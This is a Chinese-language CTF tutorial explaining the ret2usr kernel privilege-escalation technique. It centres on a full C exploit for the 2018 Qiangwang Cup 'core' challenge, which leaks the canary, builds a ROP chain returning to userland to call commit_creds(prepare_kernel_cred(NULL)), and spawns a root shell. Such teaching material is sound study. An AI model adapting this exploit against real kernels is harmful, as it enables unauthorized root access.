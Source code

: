 # ret2usr（已過時）

## 概述

**在【未】開啓SMAP/SMEP保護的情況下**，用戶空間無法訪問內核空間的數據，但是內核空間可以訪問/執行用戶空間的數據，因此 `ret2usr` 這種攻擊手法應運而生——通過 kernel ROP 以內核的 ring 0 權限執行用戶空間的代碼以完成提權。

通常 CTF 中的 ret2usr 還是以執行```commit_creds(prepare_kernel_cred(NULL))```進行提權爲主要的攻擊手法，不過相比起構造冗長的ROP chain，ret2usr 只需我們要提前在用戶態程序構造好對應的函數指針、獲取相應函數地址後直接 ret 回到用戶空間執行即可。

✳ 對於開啓了```SMAP/SMEP保護```的 kernel 而言，**內核空間嘗試直接訪問用戶空間會引起 kernel panic**，我們將在下篇講述其繞過方式。

## 例題：2018 強網杯 - core

具體的這裏就不再重複分析了，由於其未開啓 smap/smep 保護，故可以考慮在**用戶地址空間中構造好對應的函數指針後直接 ret2usr 以提權**，我們只需要將代碼稍加修改即可。

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define  IRETQ 0xffffffff813eb448

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

void coreRead(int fd, char * buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void setOffValue(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void coreCopyFunc(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

int main(int argc, char ** argv)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    int fd = open("/proc/core", 2);
    if(fd <0)
    {
        printf("\033[31m\033[1m[x] Failed to open the file: /proc/core !\033[0m\n");
        exit(-1);
    }

    //get the addr
    FILE* sym_table_fd = fopen("/tmp/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t offset = commit_creds - 0xffffffff8109c8e0;

    // get the canary
    size_t canary;
    setOffValue(fd, 64);
    coreRead(fd, buf);
    canary = ((size_t *)buf)[0];

    //construct the ropchain
    size_t rop_chain[0x100], i = 0;
    for(; i < 10;i++)
        rop_chain[i] = canary;
    rop_chain[i++] = (size_t)getRootPrivilige;
    rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = IRETQ + offset;
    rop_chain[i++] = (size_t)getRootShell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;

    write(fd, rop_chain, 0x800);
    coreCopyFunc(fd, 0xffffffffffff0000 | (0x100));
}
```
比較一下和常規 ROP 做法的異同。

1. 通過讀取 `/tmp/kallsyms` 獲取 `commit_creds` 和 `prepare_kernel_cred` 的方法相同，同時根據這些偏移能確定 gadget 的地址。
2. leak canary 的方法也相同，通過控制全局變量 `off` 讀出 canary。
3. 與 kernel rop 做法不同的是 rop 鏈的構造
	1. kernel rop 通過 內核空間的 rop 鏈達到執行 `commit_creds(prepare_kernel_cred(0))` 以提權目的，之後通過 `swapgs; iretq` 等返回到用戶態，執行用戶空間的 `system("/bin/sh")` 獲取 shell
	2. ret2usr 做法中，直接返回到用戶空間構造的 `commit_creds(prepare_kernel_cred(0))` （通過函數指針實現）來提權，雖然這兩個函數位於內核空間，但此時我們是 `ring 0` 特權，因此可以正常運行。之後也是通過 `swapgs; iretq` 返回到用戶態來執行用戶空間的 `system("/bin/sh")`

從這兩種做法的比較可以體會出之所以要 `ret2usr`，是因爲一般情況下在用戶空間構造特定目的的代碼要比在內核空間簡單得多。

## KPTI 與 ret2usr

對於開啓了 KPTI 的內核而言，內核頁表的用戶地址空間無執行權限，因此當內核嘗試執行用戶空間代碼時，由於對應頁頂級表項沒有設置可執行位，因此會直接 panic，這意味着**實際上 ret2usr 已經是過去式了**。
